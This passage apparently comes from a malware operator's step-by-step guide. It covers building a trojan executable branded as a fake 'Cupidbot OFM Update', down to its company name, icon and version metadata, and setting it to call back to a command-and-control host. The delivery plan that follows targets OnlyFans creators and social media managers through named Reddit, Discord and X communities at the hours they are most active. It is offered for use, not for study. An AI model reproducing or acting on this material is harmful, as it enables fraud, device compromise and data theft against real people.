 
---

## 🛠️ Step 8: Build the Payload

### Add to payload_brander.py

**File:** `tools/payload_brander.py`

Add this template to the `TEMPLATES` dictionary:

```python
"cupidbot_ofm": {
    "company": "Cupidbot Technologies, Inc.",
    "product": "Cupidbot OFM Update",
    "description": "AI-powered OnlyFans management and automation update",
    "copyright": "Cupidbot Technologies, Inc.",
    "icon": "icons/cupidbot.ico",
    "filename": "Cupidbot-OFM-Update-v2.1.5.exe",
    "version": "2.1.5.0"
},
```

### Build Command:

```bash
python3 tools/payload_brander.py \
  --template cupidbot_ofm \
  --c2-host YOUR_IP \
  --c2-port 443 \
  --delivery-package
```

---

## 🎯 Step 9: Delivery Strategy

### Target Audience Research

**Who uses Cupidbot OFM?**
- OnlyFans content creators
- Social media managers
- Digital marketers
- Adult content creators

**Where to find them:**
- OnlyFans creator communities
- Reddit (r/onlyfans, r/onlyfansadvice)
- Discord servers for creators
- Twitter/X creator groups

### Best Delivery Times

**When creators are most active:**
- Weekdays: 10am-2pm, 7pm-11pm
- Weekends: 12pm-8pm
- Avoid: Early morning, late night
